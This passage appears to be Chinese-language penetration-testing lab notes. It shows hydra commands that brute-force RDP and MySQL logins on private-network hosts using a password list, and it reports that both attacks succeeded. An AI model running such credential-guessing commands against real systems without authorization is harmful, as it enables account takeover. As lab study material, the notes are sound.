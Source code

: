 - rdp爆破
  - 在kali的命令行中输入
  ```
  hydra 192.168.0.92 rdp -l mystical -P /home/zhangyifeng/桌面/test_passwd.txt -vV -f
  ```
  ![Alt text](image-34.png)
  - 爆破成功



- mysql爆破
  - 在kali的命令行中输入
  ```
  hydra 192.168.0.85 mysql -l admin -P /home/zhangyifeng/桌面/test_passwd.txt -vV -f
  ```
  ![Alt text](image-33.png)
  - mysql爆破成功
